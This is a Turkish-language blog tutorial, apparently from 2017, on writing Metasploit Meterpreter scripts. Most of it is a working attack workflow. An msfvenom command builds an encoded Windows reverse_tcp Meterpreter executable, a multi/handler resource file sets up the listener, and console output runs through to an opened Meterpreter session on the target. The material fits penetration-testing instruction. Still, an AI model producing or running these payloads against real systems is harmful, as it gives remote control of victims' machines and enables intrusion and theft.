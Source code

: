 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Yazma'
date: '2017-06-14T13:47:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim. 
Tüm Windows sürümleri aynı değildir. 
Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar. 
Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler. 
Script yazarken Windows sürümüne özel davranmanız gerekebilir." 
 
url:  /tr/msf-meterpreter-script-yazma/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

## Script Yazma

Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim.
* 
* Tüm Windows sürümleri aynı değildir.

* Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar.

* Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler.

* Script yazarken Windows sürümüne özel davranmanız gerekebilir.
Yukarıda belirtilen kuralları göz önünde bulundurarak, hedefe özel script yazmak gerekmektedir. Bu durumda yazacağımız script doğru çalışabilir.

Şimdi, aşağıdaki komut ile çalıştırılabilir bir .exe dosyası oluşturalım. Bu program, hedef sistemde çalışacak ve yerel bilgisayarımıza reverse bağlantı açacaktır.
```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```

Gerekli .exe dosyamız oluşturuldu. Bu dosya hedef windows işletim sistemi içinde çalışacak ve yerel bilgisayara iletişim sağlayacaktır. O zaman bizim yerel bilgisayarda dinleyici oluşturmamız gerekmektedir. Dinleyicimizi oluşturalım.
```bash
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler **>>** meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp **>>** meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 **>>** meterpreter.rc
root@kali:~# echo set ExitOnSession false **>>** meterpreter.rc
root@kali:~# echo exploit -j -z **>>** meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```

Dikkat ederseniz komutlarla, multi handler modülünü dinleyici olarak ayarladık. Payload modülü olarak reverse_tcp modülü kulandık. Yerel IP adresi olarak 192.168.1.184 ayarladık.

Yeni yazdığımız scriptleri `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edersek, kolayca kullanabiliriz.

Şimdi yapmamız gereken, `msfconsole` programını yeni oluşturduğumuz `meterpreter.rc` dosyasını kaynak göstererek başlatmak.
```bash
root@kali:~# msfconsole -r meterpreter.rc

       [ metasploit v4.8.2-2014021901 [core:4.8 api:1.0] ]
+ -- --[ 1265 exploits - 695 auxiliary - 202 post ]
+ -- --[ 330 payloads - 32 encoders - 8 nops      ]

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST => 192.168.1.184
resource> set ExitOnSession false
ExitOnSession => false
resource> exploit -j -z
> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
```

Yukarıda gördüğünüz gibi Metasploit Framework dinleme yaparak başlamıştır. Artık, oluşturduğumuz .exe dosyasını Windows içerisinde çalıştırdığımızda, oturum aktif hale gelecektir.
```bash
> Sending stage (718336 bytes)
> Meterpreter session 1 opened (192.168.1.158:4444 -> 192.168.1.104:1043)

msf exploit(handler) > sessions -i 1
> Starting interaction with 1...

meterpreter >```
